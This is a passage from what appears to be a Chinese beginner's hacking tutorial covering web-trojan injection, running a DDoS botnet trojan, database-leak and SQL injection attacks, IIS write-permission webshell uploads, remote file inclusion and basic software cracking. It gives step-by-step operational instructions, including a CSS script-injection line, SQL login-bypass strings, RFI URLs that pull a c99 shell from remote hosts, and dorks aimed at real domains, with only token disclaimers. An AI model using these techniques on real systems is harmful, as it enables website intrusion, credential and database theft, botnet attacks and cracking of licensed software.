body {background-image: url('javascript:document.write("<script src=mm.js></script>")')}
```

```html
<link href="css.css" rel="stylesheet" type="text/css" />
```

这种方式类似于JS挂马，也是需要保存为CSS文件。看到其中的`<script src=mm.js></script>`很熟悉吧？对的，可以和JS挂马相结合。当然这个地方也是可以使用框架挂马的代码。那么需要在挂马页面中添加什么代码呢？还是和JS挂马类似，只是语句不一样罢了。这种方法可以把CSS、JS、网马放到三个不同的地方，可以随意更换，所以灵活性更棒。

这三种方法是最常用的挂马代码，也是我认为比较好用的。当然还有很多挂马技巧，例如在加代码的时候尽量选择正常页面的中间部分，因为中间部分代码较多，管理员不好查找。

### 3.4 DDOS攻击篇

此木马被植入肉鸡后便将肉鸡作为僵尸网络的一部分，跟其它普通木马一样随系统启动而自动启动，一直守候在系统后台，等待DOS攻击或者DDOS攻击命令，当得到攻击命令后就会拼命地访问攻击目标，使得攻击目标主机因为资源被耗尽而瘫痪。可以攻击游戏SF、攻击M2、攻击网关、攻击网站IIS连接数、攻击大型网站带宽、测试防火墙等。其代表作品：网络僵尸、上兴网络僵尸、傀儡僵尸、盘古僵尸、NB僵尸等等。

下面就以最新的NB僵尸来讲解一下此类木马的使用方法。打开NB僵尸，可以看到它的界面和前面讲解的NS远程管理软件等远程控制类的木马很相似，这是为什么呢？因为DDOS木马就是远程控制类木马的一种分支，来实现一些特定的功能。

#### 3.4.1 生成服务端

和远程控制类木马一样，也需要先生成服务端。点击主界面上的第二个图标进行配置服务端，此软件支持2种上线方式，一种是FTP更新，一种是动态域名更新。


图3.30

如果想使用FTP更新的话，如图3.30，这个地方就填入更新IP文件的URL地址，我填入“http://54jj.632idc.com/ip.txt”，就是说这个URL地址存放着我的IP地址信息，肉鸡就可以通过这个地址找到我，然后设置连接密码（只能写4位），直接点击“生成”即可。


图3.31

如果想使用动态域名上线方式的话，如图3.31，这个地方就填入你动态域名的地址和端口号，格式为：“域名:端口”。我填入“casper3389.3322.org:80”，也就是说这个域名就是我的IP地址，肉鸡会先解析这个域名，得到IP后再连接我。然后设置连接密码（只能写4位），直接点击“生成”即可。


图3.32


图3.33

这个僵尸木马支持希网的动态域名，那么就需要先到其网站（http://www.3322.org/dyndns/register）上注册一个帐号，如图3.32。申请帐号是需要邮件进行验证的，并且会把密码发送到你的邮箱中。使用帐号的密码登录网站，点击“管理域名”，如图3.33，申请一个动态域名，我就随意选择一个域名了（casper3389.3322.org）。由于这个僵尸木马自身就可以更新希网的动态域名，所以就不用再下载希网的IP地址更新客户端了。

> **小提示：什么是动态域名**
>
> 用户每次上网得到新的动态分配的IP地址之后，安装在用户计算机里的动态域名软件就会把这个IP地址发送到动态域名解析服务器，更新域名解析数据库。Internet上的其他人要访问这个域名的时候，动态域名解析服务器会返回正确的IP地址给他，这就叫动态域名。

#### 3.4.2 更新IP地址

由于刚才讲解了2种上线方式，那么就会有2种更新IP的方式。点击主界面上的第一个图标进行更新IP。

如果使用FTP更新的话，如图3.34，就依照自身的条件分别输入FTP的有关信息。


图3.34

FTP服务器可以输入FTP的域名或者FTP服务器的IP地址；端口就是FTP服务器的端口；更新IP就是你当前的外网IP地址，后面跟着的端口就是你僵尸监听的端口，默认为80；文件上传路径为保存IP信息的文件在FTP服务器上所在的相对路径。然后点击“刷新”即可，更新成功后，程序会返回“刷新IP成功”，你还可以用IE访问一下那个保存IP地址的文件来检验一下，如图3.35。


图3.35

如果使用希网的动态域名更新的话，如图3.36，就需要把刚才申请的希网帐号和密码填写在这里，还有你申请的免费动态域名的地址，再选择或者填写你的外网IP地址。然后点击“刷新”即可，更新成功后，程序会返回“good IP”，还可以使用ping命令进行检查，如图3.37。


图3.36

#### 3.4.3 僵尸木马的使用

当有肉鸡上线的时候就会在主界面中“上线主机”中显示，如图3.38，包括肉鸡的IP地址、计算机名、主机地域、攻击状态、操作系统、内存大小、服务版本等。在肉鸡列表中右键点击可以弹出控制功能，可以将重启、关闭肉鸡和卸载服务等。下方还可以针对主机操作系统的不同进行分组选择。再下面就是信息提示了，有执行的操作、执行时间、信息内容等。状态栏上显示了当前在监听哪个端口，有多少台上线的肉鸡，软件的版权等信息。


图3.37


图3.38

点击“攻击测试”，进入僵尸木马的攻击界面，如图3.39，这个可以进行设置攻击的操作。这款僵尸木马提供了丰富的攻击类型，有常规攻击、WEB攻击、特种攻击、急速混合攻击4个攻击类型。在4个攻击类型下还有3—6种小的攻击类型，相信总有一种可以满足你的攻击欲望。攻击线程可以控制肉鸡上以多少条线程进行攻击，攻击线程越多攻击效果越好，当然也就越消耗肉鸡的网络资源。攻击目标这个就不用说了吧？想攻击谁就把它的地址写上吧。攻击端口就是攻击目标的哪个端口，比如WEB攻击通常是80。还可以多个目标同时攻击，这个可以很好地利用肉鸡的网络资源，使攻击效果达到最佳。写好目标、端口、数量后，点击“+”就可以将它添加到攻击列表里面。同样，在列表中选择一个攻击目标，点击“-”也可以将攻击目标删除。

点击“集群广播”，进入僵尸木马的广播界面，如图3.40。从这里可以对所有的肉鸡下达一些命令，比如：下载运行一个程序、打开一个网页、全部卸载、全部关机、全部重启等命令。写好URL地址后，直接点击“发送”后，所有的肉鸡就会按照你的吩咐办事。还可以在本机上开放HTTP和FTP服务功能，用于紧急传输之用。


图3.39


图3.40

### 3.5 木马总结篇

详细地给大家介绍了这么多分类的木马，大家可以发现其实木马就是一个完整的程序，只不过设计的目的不同，使用的人群不一样罢了。就像刀子一样，好人可以用来切西瓜或者其他的水果，坏人却可以用来杀人或者抢劫。那么我想说什么呢？我想说的是，我给大家介绍了这么多的木马，不是希望去恶意地攻击别人，而是从技术的角度出发，保护好自己和自己身边的人。

## 第四章 网站注入攻击一点通

### 4.1 常规网站入侵方法简介

对于一个黑客爱好者来说，入侵网站永远是最感兴趣的话题，无论通过什么样的方法，黑客们的最终目的就是要入侵并控制服务器，获取对自己有价值的信息。对于初学者来说，网站入侵使用最多的就是脚本注入攻击了，随着这种入侵方式的流行和普及，逐渐形成了以下几种常用的攻击方法，网络上的大多数被黑网站都是因为以下几招而俯首称臣的。

#### 4.1.1 菜鸟的权限大餐

刚入门的新手朋友，要想获取服务器的系统权限是件困难的事，而且有一些攻击方法也是在我们已经拥有一定的权限基础上才能展开攻击的。因此，先拥有自己的“肉鸡”也就显得非常必要，但是这些肉鸡要如何去得到呢？答案就是GOOGLE！

例如我们想找一个DIY小马玩玩，就可以在www.google.cn中以“allinurl:diy.asp”为关键字进行搜索，可以搜索到很多的，如图4.1。关于DIY小马，它的默认文件名为diy.asp，这是一款可以帮助我们向服务器中上传木马的一个后门工具的名称，有许多人侵者上传这个文件时并没有更……


图4.1

改它默认的名字，所以我们就可以直接搜索并拿来使用！有了它后我们就可以上传自己的木马了！

除此之外我们还可以试着搜索其它的木马，只要将“allinurl:diy.asp”后面的 diy.asp 更换成其它木马的默认名字就可以了。

#### 4.1.2 致命的暴库攻击

关于暴库攻击，目前只有 %5C 和 CONN.ASP 这两种方法，必要时还可以配合搜索法与暴力猜解法来进行。

##### 1、%5C 法

例如我们找到的网址为“http://www.XXX.com/123/123.asp?id=11”，只要将其最后一个“/”替换为“%5C”，然后提交，服务器就会报错。我们提交 http://www.XXX.com/123%5C123.asp?id=11，通常情况下服务器会返回如下错误信息。

```text
microsoft jet database engine 错误 ‘80004005’

‘d:\www\XXX.com\data\ad01.mdb’ 不是一个有效的路径。确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。

/e-market/123/conn.asp, 行 3
```

来分析一下上边的错误信息，d:\www\XXX.com\ 就是我们想要入侵的目标网站，而它后面的 data\ad01.mdb 则是数据库的地址，我们只要将其改成 data/ad01.mdb，然后再添加到网址后面，组合起来就是 http://www.XXX.com/data/ad01.mdb，只要提交这个网址就可以直接下载数据库了。

##### 2、CONN.ASP 法

我们可以把 CONN.ASP 文件想象成一个“转播者”，它的职责就是告诉调用它的文件数据库在哪里。有的时候程序员只考虑到调用它的文件，所以一切数据库路径都是从调用者这个角度出发的。例如 index.asp 调用了它，它就会告诉 index.asp：数据库在你的同一目录里，它的名字叫 ad01.mdb。但一般情况下 CONN.ASP 这个文件都不与数据库在同一目录下，所以当我们访问 CONN.ASP 时它就会告诉自己：数据库在你的同一目录里，它的名字叫 ad01.mdb。但却因为路径不对而找不到数据库，所以服务器报错，如图 4.2。


图 4.2

用 CONN.ASP 法跟服务器报出的错误信息与 %5C 法基本一致。对于掌握了 %5C 法的朋友们来说，这个方法的要点就在于怎样找到 CONN.ASP 这个文件，只要我们找到这个文件并访问它，就会报出我们想要的信息。剩下的利用方法与 %5C 法完全一样。

##### 3、搜索法

所谓搜索法就是指利用搜索引擎来搜索数据库的位置，我建议使用 www.google.cn 进行搜索。例如我们要搜索网易的数据库位置，就可以构造类似“intext:[to parent directory] + intext:mdb site:163.com”的搜索语句，这条语句的意思就是目录遍历漏洞搜索 163.com 的数据库文件，如图 4.3。如果想搜索其它网站，将后面的 163.com 换成你想攻击的网站即可。

如果读者们不喜欢自己构造关键字，也可以使用挖掘鸡来进行搜索。挖掘鸡其实就是一款将搜索代码集中并封装的批量处理工具，它利用相对特别的关键字来搜索一些无意间被泄漏的网络安全信息，从而可以使我们利用这些信息达到入侵的目的。

挖掘鸡运行后的界面如图 4.4 所示，如果我们未发现需要挖掘内容的相应配置信息，可以新建一个适合我们的条目。例如我们想在“挖掘测试”栏目里建立一个默认地址为 e-market/sjk.mdb 的数据库搜索条目，那么就要先将“挖掘测试”栏目前的勾选上，然后单击“挖掘测试”栏目，使其处于选定状态，最后单击右键，选择“添加(add)(A)”即可，如图 4.5。


图 4.3


图 4.4


图 4.5

接下来我们左键单击两下（注：不是双击）“路径组”相应条目，使其处于可编辑状态，在里面填入“e-market/”即可，如图 4.6。然后再用相同的方法编辑“文件名”下的相应条目，并填入“sjk.mdb”，“备注”可以随意填写，我填写的是“测试”，最终结果如图 4.7 所示。这样我们就成功地增加了一个条目，如果以后想扫描此类数据库，直接勾选上就行了。


图 4.6


图 4.7


图 4.8


图 4.9

对于刚入门的小菜来说，只需要将一些整站系统的默认后台与数据库添加进去就可以了。这样，你慢慢地就会发现自己积攒了很多类似的信息，这也可以称为经验的一种吧。

关于挖掘鸡的使用还是比较简单的，我们在“扫描模式”中选择“兼容模式”，其它的使用默认设置，然后点击“=>”就可以开始扫描了，如图 4.8。

##### 4、猜解默认数据库

关于默认数据库的猜解，我推荐大家使用 NBSI，它本身就有一个数据库猜解功能，如图 4.9。我们只要将目标网站的网址填到“扫描地址”中，然后单击“开始扫描”按钮即可。


如果没有扫描到默认数据库的话，我们可以看看这个网站的版权信息，然后根据这个版权信息到网上搜索并下载它的整站程序，然后解压后找到它的默认数据库路径，再根据这些信息推算出目标网站的数据库地址。例如我们发现它的数据库在这个刚解压完毕的 db/mdb.mdb 目录里，那么它的默认数据库地址就是“网址”+“db/mdb.mdb”。最后别忘了将我们新找到的信息添加到 NBSI 目录下的“Dict_Database.txt”文件里，这样等到下次程序扫描时就会自动扫描我们新添加的默认数据库路径信息了。

##### 5、暴库攻击需要注意什么

要怎样才能查看数据库里的信息呢？我们可以使用“辅臣数据库浏览器”来查看数据库里面的数据，运行后点击“打开数据库”即可，如图 4.10。

为什么只提示“500 错误信息”？打开 IE 浏览器后点击“工具”→“Internet 选项”，在弹出的窗口中选择“高级”选项，在里面找到“显示友好的 HTTP 错误信息”，并把前面的“√”去掉，如图 4.11。


爆出的数据库含有“#”，导致无法下载，该如何解决？我们可以使用“%23”代替“#”，因为“%23”就是“#”的 URL 编码，就像暴库时使用“%5C”代替“\”一样。

为什么会爆出“.asp”结尾的数据库？这是因为数据库被管理员改名了，这时我们可以使用迅雷等工具进行下载，下载完毕后需要再把文件名后缀改成“.mdb”就可以正常读取了。如果使用迅雷等工具也下载不了的话，那就只能放弃了。因为如果遇到这种情况，一般是管理员做了防下载处理。

打开数据库前提示要输入密码，该怎么办？我们可以使用数据库文件破解工具找到密码，如图 4.12。


图 4.12

打开相应表后，发现有密码加密。这种情况一般是密码被 MD5 加密了，我们只需要到网站 www.cmd5.com 上进行破解即可。

暴库攻击的条件有哪些？一般来讲，只要这个文件调用了数据库，而且处于二级目录下（其实不与数据库在同一目录即可），那么它就可以被用来进行暴库攻击。例如 http://www.XXX.net/123/123.asp，通过这个 URL 大家应该可以看出，并不一定带参数的 URI 才能暴库，只要它调用了数据库，那么就可以用来暴库，这点大家一定要记住。

#### 4.1.3 灵活的注入攻击

对于脚本注入攻击，刚入门的朋友只需要学会怎样使用工具就可以了，等到自己对于常见的各种注入攻击方法都掌握熟练后，再研究 SQL 注入攻击的原理。我们下边就使用 NBSI 来入侵一个网站，大家也好顺便了解一下。

## 第四章 网站注入攻击一点通


图 4.13


图 4.14


图 4.15


图 4.16


图 4.17

### 注入工具的使用方法

打开 NBSI，选择“网站扫描”，如图 4.13，进入下一个界面后填入要攻击的网址就可以开始扫描了，如图 4.14。耐心等待一会儿，就会看到扫描的结果，看来漏洞还不少呀，如图 4.15。

找到这么多注入点，我们随便选择一个（通常那种可能性越高的注入点成功率也越高），然后点击“注入分析”，就会进入注入分析页面，如图 4.16。细心的朋友可能会发现，这不就是我们刚才进入时的界面吗？不错，因为有时候我们经过自己的检测已经知道了注入点，所以就不用工具来检测了，毕竟人是活的，而工具是死的。

在开始检测前，先来看看“检测”按钮左边的“Get”与“Post”选项，这是检测时提交信息方式的设定，正式开始检测后将不能更改。我推荐使用“Post”提交方式，虽然速度会慢一些，但是在被攻击的服务器上不会产生日志，比较安全。而“Get”提交方式虽然检测速度快，但是却会在服务器上留下日志。接着，我们点击右面的“检测”按钮，NBSI 便听话地跑起来，检测的过程中有时会提示“暂未检测到注入漏洞”，如图 4.17，而我们开始点击过的“检测”按钮名称也变为“再检测”，碰到这种情况我们要如何做呢？

我们访问那个存在注入漏洞的页面，并在 URL 后加上“ and 1=1”（注意中间的空格），如图 4.18；然后再输入“ and 1=2”，在“ and 1=1”这个页面中随意选择几个在“ and 1=2”页面中没有的连续字符作为关键字，将其填到 NBSI 的特征字符框里，然后再次进行检测。


图 4.18

NBSI 检测完毕后开始下一步工作，先分析 NBSI 给我们提供的信息，如图 4.19。我们往右看，注意到“用户权限”这一项了吗？它属于“SQLServer 信息”，而“SQLServer 信息”只有当“数据库”栏里的选项选中第一或第二个选项时才会有。我们再回到“SQLServer 信息”下的“用户权限”中，由上图可以看到我们的权限为 DB_OWNER，那么 DB_OWNER 又是什么呢？它又是怎样的一种权限呢？


当我们进行针对 MS SQL 数据库的注入时，可能会得到三种数据库权限，也就是 SA 权限、DB_OWNER 权限和 PUBLIC 权限。其中 PUBLIC 权限为最低权限，PUBLIC 权限只可以查看数据库内容与列目录，DB_OWNER 权限位于中间，可以查看数据库内容、列目录、读取注册表、备份数据库；而 SA 权限除了可以做 DB_OWNER 权限的事外，还可以直接利用工具执行系统命令、上传文件以及跨库！

关于这些功能，我们可以通过点击“SQLServer 信息”旁边的“工具”按钮来选择使用，如图 4.20。


接下来我们要做的就是使用工具查看对方网站数据库的内容。点击“以猜解表名”栏下的“自动猜解”按钮，NBSI 就会自动开始猜解工作，我们在猜测出的表名里选择 Y_admin 表，然后点击“以猜解列名”栏下的“自动猜解”按钮，很快地就猜解出了相应的列名，如图 4.21。

我们在猜解出的列名中选择“Y_username”与“Y_pwd”，可以看出它们分别代表“用户名”与“密码”，然后点击“以猜解记录”栏下的“自动猜解”按钮，稍等一会儿就会猜解出相应内容了，如图 4.22。

我们得到管理员的账号与密码后需要做什么呢？当然是找到后台页面，然后再使用我们猜解出来的账号与密码进行登录，就可以管理整个网站了！至于如何找到后台页面，这也是一件运气活儿。我们点击 NBSI 上的“扫描与工具”按钮就会进入后台扫描界面，填入这个网站的主页地址，再点击开始扫描就可以了。


图 4.21


图 4.22

如果大家对于注入攻击的方法掌握得还不够熟练的话，可以考虑先到网上搜索注入点。不知道大家听说过 Google 黑客没有，接下来我就利用阿D加 Google 黑客的方法来教大家如何寻找肉鸡。首先打开阿D，点击“扫描注入点”按钮，将 Google 的网址“http://www.google.cn/”输入到新界面里的“检测网址”后面，然后点击“打开网页”按钮，Google 的网页就显示在我们的面前了，如图 4.23。

在 Google 的页面里点击“高级搜索”，然后如图 4.24 所示那样填写 Google 的页面，点击“Google 搜索”按钮就可以找到非常多的注入点了，如图 4.25！

忘记了提醒一下各位，我们学习的目的只是为了研究技术，而不是搞破坏，引起别人的反感！记住，害人终害己！

## 4.1.4 机智的旁注攻击

什么是旁注攻击呢？我们都知道，一个服务器上可以存在许多站点，有可能我们要入侵的目标站点坚不可摧，但我们可以通过入侵这台服务器上的其它站点再入侵这台服务器，最终达到控制整台服务器，从而达到黑掉目标网站的目的。当然这只是广义上的旁注，如果一个网站存在很多整站程序，我们利用其中一套比较脆弱的整站程序入侵了整个网站，这就是狭义上的旁注。不管广义还是狭义，旁注攻击的思想就是找到弱点，曲线救国！

打开明小子的 Domain3.5，在“旁注检测”的选项下输入我们要入侵网站的域名，然后点击“>>”按钮，等到 IP 地址出来后再点击“查询”按钮，就可以查出同一服务器的其它站点，然后我们可以逐一检测其它站点的安全性，从而最终找到漏洞控制整台服务器。

如果大家对于 Domain3.5 的查询结果不满意，还可以使用“旁注查询小工具”，它能查到更多的同一 IP 下的站点。

### 4.2 另类网站入侵方法

这里所谓另类的入侵方法其实就是指不常用的入侵方法，这些方法之所以不常用，也是有一定的原因的。当然，作为一个初学者，这些还是有必要掌握的。


图 4.23


图 4.24


图 4.25

#### 4.2.1 Google 黑客技术

Google 黑客是前几年提出的一个话题，直到 05 年才被广泛地重视，对于这种技术，我个人的评价就是威力无穷！当然，任何好的方法都需要先进的思想来引导，Google 黑客技术威力的大小也直接取决于个人。所谓一个刚入门的黑客爱好者，利用好 Google 黑客技术往往会给你带来意想不到的惊喜！

我们在上面介绍过的“权限大丰收”与“批量扫描注入点”其实应用的就是 Google 黑客技术。但是，Google 黑客技术的中心还在于目录遍历漏洞的利用。本文的 Google 黑客限于篇幅只能教给大家一些思路，由于一个被恶意利用的关键词如果出现频率过高的话就会被 Google 屏蔽，所以希望大家都能找到属于自己的 Google 黑客风格。例如我们使用 Google 搜索 “intext:[to parent directory]” 这个关键字，就会搜索出很多有目录遍历漏洞的网站，如图 4.26。如果我们想搜索网易网站的目录遍历漏洞，那么在后面加上 site:163.com 即可，合起来就是 “intext:[to parent directory] site:163.com”。限制的条件越多，找到的结果越精确，当然搜到的结果也就越少。

下面我给出一些 Google 的搜索语法，剩下的还要靠大家自己发挥。


图 4.26

- **intext**：这个就是把网页中的正文内容中的某个字符作为搜索条件。
- **allintext**：使用方法和 intext 类似。
- **site**：这个也很有用，例如“site:163.com”将返回所有和 163.com 这个站有关的 URL。
- **intitle**：与上面那个 intext 差不多，它是搜索网页标题中是否有我们所要找的字符。例如搜索“intitle:index of/”，将返回所有网页标题中包含“index of/”的网页。
- **cache**：搜索 Google 里关于某些内容的缓存，有时候也许能找到一些好东西哦。
- **define**：搜索某个词语的定义，例如搜索“define:hacker”，将返回关于 hacker 的定义。
- **filetype**：这个我要重点推荐一下，无论是撒网式攻击还是我们后面要说的对特定目标进行信息收集都需要用到这个来搜索指定类型的文件。例如输入“filetype:doc”，将返回所有以 doc 结尾的文件 URL，当然如果你找 .bak、.mdb 或 .inc 也是可以的。
- **info**：查找指定站点的一些基本信息。
- **inurl**：搜索我们指定的字符是否存在于 URL 中。例如输入“inurl:admin”，将返回 N 个类似于这样的链接：http://www.xxx.com/xxx/admin。这个用来寻找管理员登录的 URL 是不错的。
- **link**：例如搜索“link:www.hackerxfiles.net”，可以返回所有和 www.hackerxfiles.net 做了连接的 URL。

还有一些操作符也是很有用的：

- `+` 把 Google 可能忽略的字列入查询范围
- `-` 把某个字忽略
- `~` 同义词
- `.` 单一的通配符
- `*` 通配符，可代表多个字母
- `"查询内容"` 精确查询

## 4.2.2 IIS 写权限深入侵网站

其实关于 IIS 写权限是一个比较具有争议的话题，因为这个漏洞是人为制造出来的，如果管理员对任意用户开启 IIS 写权限的话，那么这台服务器的其它配置情况也就可想而知了，所以理论上我们也完全可以通过其它方式进入这台服务器。当然，事情总是有个例外的……

对于 IIS 写权限的利用只需要两个工具就够了，我们先运行 IISPutScanner，这是一个扫描 IIS 写权限漏洞的工具，填写上开始 IP 与结束 IP 地址，其他的保持默认，然后点击 Scan 按钮，就开始扫描了，如图 4.27。但是这种扫描的“中靶率”还不算高，我建议大家先 PING 出一个比较大的网站 IP 地址，以此 IP 为起点，扫描附近几个网段，应该会有所收获的。

当扫描到存在 IIS 写权限漏洞的服务器后，会以红色感叹号标志显示出来，如图 4.28。下面我们就要开始入侵了。打开 iiswrite，填入我们扫描到的 IP 地址，在下拉菜单中选择“PUT”，并在弹出的对话框中选择我们的一句话木马，最后点击“提交数据包”按钮，如图 4.29。如果出现“HTTP/1.1 200 OK”就说明我们提交成功了。最后我们再选择下拉菜单中的“MOVE”，并再次点击“提交数据包”，成功的话我们就会有一个名字为 shell.asp 的 WebShell 了。

#### 4.2.3 远程文件包含漏洞

远程文件包含漏洞在国外是很流行的一种攻击方法，但是由于国内针对 PHP 脚本入侵的文章不是太多，其中提到的远程文件包含漏洞就更少了，因此这种入侵方法对于菜鸟们来说很少去关注。

远程文件包含漏洞也称为 RFI，是由于包含文件代码编写不严格造成的，其中能被我们利用的就是跨站点文件包含，远程包含的文件可以是任何后缀，只要其中包含可执行代码就会被服务器解析执行，所以通常的利用方式是包含一个我们准备好的脚本木马文件。


图 4.28


图 4.29

一般情况下，远程包含漏洞是需要通过读代码来一点点找到的，但是作为小菜的我们，只需要到漏洞公布网站上寻找已经被牛人们公布的漏洞就可以了。www.feedread.info 就是一个很好的漏洞公布网站，大家可以到那里去找需要的漏洞。如果不懂英语，可以寻找标题名带有 RFI、Vulnerability 或 Remote File Inclusion Vulnerability 的就可以。关于利用的方式非常简单，例如我们打开一个漏洞信息，找到里面的利用方法，比如：`www.RxH.com/fastpublish_19999d_trial/adminbereich/designconfig.php?config[fsBase]=http://www.no-hack.fr/shells/c99.txt?`。然后我们到 Google 搜索位于问号两侧的词，前面加上 `allinurl:`，组合起来就是 `allinurl:designconfig.php?config`，搜索到后将后面的 `http://www.no-hack.fr/shells/c99.txt` 替换成你自己的木马。如果没有空间保存自己的脚本木马，也可以考虑使用 Sagi 前辈的 `http://www.sagi.net.cn/c99shell.txt`。组合起来就是：`www.XXX.com/fastpublish_19999d_trial/adminbereich/designconfig.php?config[fsBase]=http://www.sagi.net.cn/c99shell.txt?`。访问这个网址就会在对方服务器中执行 `http://www.sagi.net.cn/c99shell.txt` 这里的木马 c99shell.txt 了。

#### 4.2.4 网站后台万能密码

网站后台万能密码也称之为“'or'='or'”漏洞，如果你找到网站后台登录页面，在管理员的用户名与密码中都输入“'or'='or'”就可以进入后台，然而这也是一个比较老的漏洞了。它出现的原因是因为编程的时候在逻辑上考虑不足所造成的，其实就是在 and 与 or 上的逻辑关系没有搞好，再就是没有过滤单引号，这个小菜朋友们了解一下就可以了。

其实这个漏洞不仅仅是“'or'='or'”，例如“'or 1=1--”等也可以实现同样的目的，下面是我收集的一些“万能密码”，如果各位在以后入侵时实在没有办法了，试试这些账号密码也是可以的。

```text
'on''a'='a
') or ('a'='a
or 1=1--
'or'1=1--
a'or'1=1--
"or""="a"="a
'or'='or'
```

## 第五章 黑客破解基础知识入门

想必许多读者都对破解很感兴趣吧，我们这次的学习就是要把大家领进“破解”这座神秘的殿堂。当然了，大家以前也曾经接触过一些破解的学习，但在学习过程中总是被各种各样的困难所阻挡住继续前进的道路，生涩的汇编语言、复杂的调试技术、艰难的分析过程一直伴随在大家的左右，受的打击太多了信心也就慢慢失去了。但是，遇到困难就退缩是我们的作风吗？当然不是，虽然前进的道路上困难千千万万，但我们依然要坚持下去。不过传统的学习方式很明显不适合初学者，所以有必要为大家寻找出一条合适的学习方式来，经过我与小编们的一致努力，最终决定以实例分析的方法来引导大家学习。所以本文将通过典型的软件破解实例分析来带领大家突破学习过程中的一道道难关，打开通向破解殿堂的通途，大家鼓足信心开始学习吧！由于有很大一部分读者可能是初次接触破解，所以我们就从最简单的暴力破解开始，让大家体验一下破解的魅力。

### 5.1 什么是“暴力破解”

所谓“暴力破解”就是众多软件破解方法中，一种最基本也是最简单的破解技术，暴力破解的核心原理就是通过对关键代码的修改来实现我们控制程序破解软件的目的。因为，修改代码是一个比较暴力的行为，所以通过修改代码来实现破解软件的方法也就被命名为了“暴力破解法”。

大家可能都会有这样的一种认为，就是不论做什么，简单的方法都不太好使，不是效果不好就是破解对象太局限。那么“暴力破解”这个最简单的破解方法究竟能不能破解程序呢？它究竟是一门很实用的技术，还是一个纯粹的没有实战意义的基础性方法呢？事实胜于雄辩，我们还是通过实例来说明问题吧！

### 5.2 暴力破解实例分析

为了看看这个“暴力破解”究竟有什么能耐，我们决定对它考察考察！我们需要用到的工具主要有 OD（OD 的全称是 OLLYDBG）和 PEiD 这两个，我们要破解的目标软件为****游戏助手（某游戏助手软件一个）。

#### 5.2.1 收集软件的基本信息

为什么要收集软件的基本信息呢？大家想想看，我们要找一个人的话总得事先知道这个人的身高、体重、长相吧！分析或者破解软件的情况也一样，在破解一款软件前我们必须事先了解一下软件的基本信息。

### X 加油站：什么是软件的基本信息

> 软件的基本信息一般是指在软件破解过程中需要收集的，诸如编写软件的语言、软件是否加壳等等这一类的信息。怎样得到软件的基本信息呢？软件可不会主动告诉我们这些的，所以必须想办法从其他途径了解到软件的基本信息。于是，软件检测工具就出现了。

### X 加油站：什么是“软件检测工具”

> 就是用来检测目标软件基本信息的工具。我们通过“检测工具”的检查结果来了解目标软件的基本信息。这类的工具种类繁多，不过最常使用的检测工具就是 PEiD 了。

接下来我们就使用 PEiD 检测一下目标软件的基本信息。先运行 PEiD，然后将目标程序的图标拖拽到 PEiD 的主界面上。很快，PEiD 就会把检测的结果告诉我们了，如图 5.1。从检测的结果可以看出来，该软件是使用 Borland Delphi 6.0 语言编写的，而且幸运的是该软件并没有加壳。


图 5.1

经过了初步的检测，我们可以确定软件没有加壳，对于没有加壳的软件，可以放进 OD 中进行分析，但是倘若目标软件被加壳了，就得先脱壳再进行分析。

### X 加油站：什么是壳，为什么要脱壳

> 关于“壳”，大家一定觉得很神秘；对于壳本身而言它的作用就是保护软件。在壳的保护下，我们就不能正确地对软件进行分析。其实形象一点来理解，这个壳的作用就像我们在论坛时用到的“马甲”一样。大家平时总是想看看“马甲”之后的人究竟是谁，但是必须得想办法把马甲给脱掉才行；同样的道理，要想正确地对目标软件进行分析，也就必须要把软件的这层“马甲”给脱掉。

#### 5.2.2 学习破解的理论知识

“理论知识”这个标题看起来就觉得有些沉重，大家一定会认为枯燥的……理论学习又要开始了。但是，要想学习破解，具有一定的理论知识是非常必要的。大家放心，我们这次介绍的重点放在实例的分析上，理论知识只做很简单的介绍。

来看一下常用的汇编命令，说到汇编，大家就开始头疼这个生涩难懂的东西了。为了避免大家出现“身体不适”的状况，我们只对两类使用十分广泛的汇编命令进行讲解和说明。

##### 1、比较指令

所谓比较语句，就是把两个特定位置的数值或其他内容进行比较的指令。其中最常见的就是 CMP 指令。CMP 指令的一般用法是 `cmp a,b`，含义就是比较 a 与 b。怎么样来理解“比较 a 与 b”呢？打一个比方，假设现在 a=1，b=2，那么执行了 `cmp a,b` 这句指令后，程序就会把 1 与 2 进行比较。但是一定要注意，CMP 指令的作用仅仅是对数据的比较，而不对结果进行任何的处理和操作。也就是说，经过比较之后究竟比较的结果如何，a 与 b 这两个值的关系究竟是等于还是不等于、大于或小于等等，这样一类的比较结果不做任何处理。

##### 2、跳转指令

关于跳转指令的含义很容易理解，就是当程序执行到跳转命令处时让程序跳转到指定的位置去执行相应的代码。跳转指令不会让程序的代码随便地跳来跳去，因为每一句跳转指令的实现都要有相应的条件。只有跳转所要求的条件实现了，相应的跳转指令才会实现。下面对几个常见的跳转指令进行一下说明。

###### （1）相等则跳转指令

- 指令语句：JE 或 JZ
- 表现形式：JE ******** 或者 JZ ********（星号表示地址，大家先了解就可以了）
- 成立条件：相等则跳（机器码是 74 或 84）
- 含义：如果 a 与 b 中的值相等，程序就会跳向指定的地方去执行
- 应用举例：假设 A=1，B=2

```asm
CMP A,B
JE 12345678
```

在这个例子中，程序首先会对 A 与 B 中的值进行比较，如果 A 与 B 中的值相等，那么就会跳转执行地址位于 12345678 处的代码。

易发现 A 与 B 中的值分别是 1 与 2，所以是肯定不会相等的，因此这里的跳转指令因为条件不成立所以不能够实现，也就是说程序是不可以跳转执行 12345678 那里的代码的，原因就是因为 1 与 2 是不相等的。

###### （2）不相等则跳转指令

- 指令语句：JNE 或 JNZ
- 表现形式：JNE ******** 或者 JNZ ********
- 成立条件：不相等则跳（机器码是 75 或 85）
- 含义：如果 a 与 b 中的值不相等，程序就会跳向指定的地方去执行
- 应用举例：假设 A=1；B=2

```asm
CMP A,B
JNE 12345678
```

依然是刚才用到的例子，那么大家开动脑筋想一想，在当前的条件下这个跳转指令能不能实现呢？答案是肯定的，我们从两个方向来分析这个跳转能够实现的原因：首先从前提条件来看，经过比较之后程序会发现 1 与 2 是不相等的（电脑好弱智，^-^！）；其次从指令的自身来看它成立条件就是要求两个值不相等。综上所述，因为 1 与 2 是不相等的而且该指令成立的条件就是要求两个值不相等。所以，程序经过这两句代码之后就会跳转到 12345678 这个地址上去并执行那里的代码。

###### （3）无条件跳转指令

- 指令语句：JMP
- 表现形式：JMP ********
- 成立条件：无条件跳转
- 含义：不论 a 与 b 中的值的关系是大于、小于、等于、不等于，遇到该跳转程序就会义无反顾地跳向指定的地方去执行。
- 应用举例：假设 A=1；B=2

```asm
CMP A,B
JMP 12345678
```

